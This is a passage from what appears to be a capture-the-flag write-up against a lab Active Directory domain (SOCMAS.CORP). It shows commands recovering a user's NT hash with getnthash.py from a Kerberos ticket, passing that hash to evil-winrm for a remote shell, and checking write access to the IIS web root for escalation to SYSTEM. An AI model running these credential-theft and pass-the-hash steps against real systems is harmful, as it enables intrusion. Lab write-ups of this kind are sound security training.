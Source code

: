 At last, we can use the `getnthash.py` from `PKINITtools` to get the hash for the user after setting the `KRB5CCNAME` with the `TGT` we obtained.

```console
$ export KRB5CCNAME=krampus_shadow.ccache

$ proxychains -q python3 getnthash.py SOCMAS.CORP/Krampus_Shadow -key ddfea8610c5e634577a7fbe5352990e1327649bbad61335f180b7df9d4e6c462

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
5f[REDACTED]94
```
{: .wrap }

Checking the group memberships of the `Krampus_Shadow` user, we see they are a member of the `KrampusIIS` group, which is also a member of the `Remote Management Users` group.

![Bloodhound Groups](bloodhound_groups.webp){: width="1200" height="600" }

This means that we can use `evil-winrm` along with the hash we discovered to get a shell as follows:

```
$ evil-winrm -i fisher.socmas.corp -u Krampus_Shadow -H 5f[REDACTED]94

Evil-WinRM shell v3.5

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\TEMP\Documents> whoami
socmas\krampus_shadow
```

### Shell as SYSTEM

Since the `Krampus_Shadow` user is a member of the `KrampusIIS` group, focusing on the `IIS` web server, we discover that the members of the `KrampusIIS` group have write access to the `C:\inetpub\wwwroot` directory.

```
*Evil-WinRM* PS C:\Users\TEMP\Documents> icacls C:\inetpub\wwwroot
C:\inetpub\wwwroot BUILTIN\IIS_IUSRS:(RX)
                   BUILTIN\IIS_IUSRS:(OI)(CI)(IO)(GR,GE)
                   NT AUTHORITY\SYSTEM:(I)(F)
                   CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                   NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                   SOCMAS\KrampusIIS:(I)(OI)(CI)(RX,W)
                   BUILTIN\Administrators:(I)(OI)(CI)(F)
                   BUILTIN\Users:(I)(OI)(CI)(RX)
                   NT SERVICE\TrustedInstaller:(I)(OI)(CI)(F)

Successfully processed 1 files; Failed processing 0 files
```
